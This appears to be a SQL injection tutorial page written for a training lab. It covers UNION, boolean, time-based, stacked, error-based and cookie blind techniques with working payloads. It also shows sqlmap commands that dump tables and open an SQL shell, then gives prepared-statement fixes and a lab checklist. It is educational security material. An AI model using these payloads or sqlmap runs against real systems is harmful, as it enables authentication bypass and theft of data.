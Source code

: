 # SQL Injection

## Theory

### What is SQL Injection?

**SQL Injection** is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. By manipulating SQL queries, an attacker can:

- Bypass authentication and impersonate users  
- Access sensitive data (user info, payment data, etc.)  
- Modify or delete data  
- Launch attacks on the internal network protected by a firewall  

It is considered one of the **most critical** security vulnerabilities.

---

### Example: How SQL Injection Looks

Suppose we have a `Users` table and a script that retrieves a username by `userId`:

```java
String sqlQuery = "SELECT username FROM Users WHERE userId=" + req.getParameter("id");
Statement stmt = conn.createStatement();
ResultSet res = stmt.executeQuery(sqlQuery);
```

If we call:  
```
http://www.hacktory.lab/getUsernameById?id=1
```

The query executed will be:
```sql
SELECT username FROM Users WHERE userId=1
```

Output: **Bob**

![image](https://github.com/user-attachments/assets/67464031-7b35-4d9e-83aa-aaba20e17346)

---

## Exploitation Techniques

### 1. UNION-Based Injection

To combine results from different tables using the `UNION` operator, the number of columns in both queries must match.

#### 🔍 Finding the Number of Columns

**Method 1: Try Adding Columns**

```sql
?id=1 UNION SELECT 1          -- ❌ Error  
?id=1 UNION SELECT 1,2        -- ❌ Error  
?id=1 UNION SELECT 1,2,3      -- ✅ No error → 3 columns
```

**Method 2: Use GROUP BY**

```sql
?id=1 GROUP BY 2              -- ❌ Error  
?id=1 GROUP BY 5              -- ❌ Error  
?id=1 GROUP BY 3              -- ✅ No error → 3 columns
```

---

### 2. Boolean-Based Injection

Evaluate true/false logic in SQL and observe the application's response.

#### Example: Login Bypass

```java
String.format("SELECT * FROM users WHERE name='%s' and password='%s'", name, password);
```

Injected Input:

```java
name = "1' OR '1'='1'; --"
password = "1"
```

Final Query:

```sql
SELECT * FROM users WHERE name='1' OR '1'='1'; --' AND password='1'
```

---

### 3. Time-Based Injection

This technique measures response delay to infer conditions.

#### Example

Original Query:

```sql
SELECT login FROM users WHERE id='$_GET['id']';
```

Injected Input:

```sql
1' AND IF(MID(VERSION(),1,1) = '5', SLEEP(15), 0) --
```

Executed Query:

```sql
SELECT login FROM users WHERE id='1' AND IF(MID(VERSION(),1,1) = '5', SLEEP(15), 0) -- ';
```

If the condition is true, the server delays for 15 seconds — indicating successful injection.

---

### 4. Stacked Queries (MSSQL)

Allows executing multiple queries separated by semicolons.

#### Example

```sql
SELECT login FROM users WHERE id='$_GET['id']';
```

Injected Input:

```sql
1'; SELECT password FROM users WHERE id='1
```

Executed:

```sql
SELECT login FROM users WHERE id='1'; SELECT password FROM users WHERE id='1';
```

---

### 5. Error-Based Injection

Leaks data through verbose error messages.

#### Example

```sql
SELECT name, email FROM users WHERE id='1' AND extractvalue(rand(), concat(0x3a, version())) -- 
```

The error will include the database version.

---

### 6. Cookie-Based Blind Injection Example

A vulnerable app stores user data in a cookie that is later used in SQL queries.

#### Example Request (captured via Burp Suite):

```
POST / HTTP/1.1
Host: www.hacktory.lab
Cookie: PHPSESSID=eb4k51cftnulvdksn5n12jcllc; name=Alex1234
Content-Type: application/x-www-form-urlencoded

message=Hi+there
```

The `name` cookie parameter is vulnerable to SQL injection.

---

### Using SQLMap to Exploit

Run SQLMap:

```bash
sqlmap --url "http://www.hacktory.lab/" --cookie="name=*" --dbs
```

- `--cookie="name=*"`: Inject into the `name` parameter
- `--dbs`: List databases

**Output:**

```
available databases [2]:
[*] comments
[*] information_schema
```

Next, enumerate tables in `comments`:

```bash
sqlmap --url "http://www.hacktory.lab/" --cookie="name=*" -D comments --tables
```

**Output:**

```
[2 tables]
+--------------+
| secret_files |
| posts        |
+--------------+
```

Extract data:

```bash
sqlmap --url "http://www.hacktory.lab/" --cookie="name=*" --batch -D comments -T secret_files --sql-shell
```

And in the SQL shell:

```sql
SELECT * FROM secret_files;
```

✅ Success: Sensitive data is extracted using a blind injection on the cookie parameter.

---

## Fixes and Prevention

### Primary Measures

- Use **prepared statements** and **parameterized queries**.
- Prefer **ORMs (Object-Relational Mappers)**.
- Use **built-in framework query functions**.

#### ❌ Vulnerable Example:

```java
String sqlQuery = String.format("SELECT username FROM Users WHERE userId='%s'", req.getParameter("id"));
Statement stmt = conn.createStatement();
ResultSet res = stmt.executeQuery(sqlQuery);
```

#### ✅ Fixed with Prepared Statements:

```java
String query = "SELECT username FROM Users WHERE userId = ?";
PreparedStatement stmt = conn.prepareStatement(query);
stmt.setString(1, req.getParameter("id"));
ResultSet rs = stmt.executeQuery();
```

### Additional Recommendations

- Apply the **Principle of Least Privilege** on database accounts.
- Use **input validation** with whitelisting wherever possible.
- Sanitize and encode all user-supplied input.
- Use **Web Application Firewalls (WAFs)** to catch injection attempts.

---

> ✅ **Always validate, sanitize, and never trust user input.**

## LAB1:Bully
- Open the machine
- Open the firfox
- Test the login admin admin
- see the answer in the burb
- we can see the input is direclty in the sql
- inject this ' OR '1'='1' -- 
 see the flag save it and save note s
goood luck
